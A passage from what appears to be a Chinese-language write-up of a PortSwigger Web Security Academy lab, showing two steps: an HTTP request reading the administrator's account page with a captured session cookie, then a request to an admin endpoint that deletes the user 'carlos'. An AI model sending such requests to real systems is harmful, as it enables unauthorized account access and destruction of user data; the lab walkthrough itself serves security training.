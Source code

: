 Step 5：随后发生请求查看可用的接口

```c
GET /my-account?id=administrator HTTP/2
Host: 0a590059045ceec6801b80f6009c0010.web-security-academy.net
Cookie: session=cyZcKafhXtFXWKThxfViUIkgfRkV9zep
```

![img](assets/1706773318-b225b3018a78b07f279a8e132bb5a3ba.png)

访问/admin路径获取到删除用户的接口信息

![img](assets/1706773318-857068c585ed796675286072792d22eb.png)

Step 6：直接调用接口删除用户

```c
GET /admin/delete?username=carlos HTTP/2
Host: 0a590059045ceec6801b80f6009c0010.web-security-academy.net
Cookie: session=cyZcKafhXtFXWKThxfViUIkgfRkV9zep
```
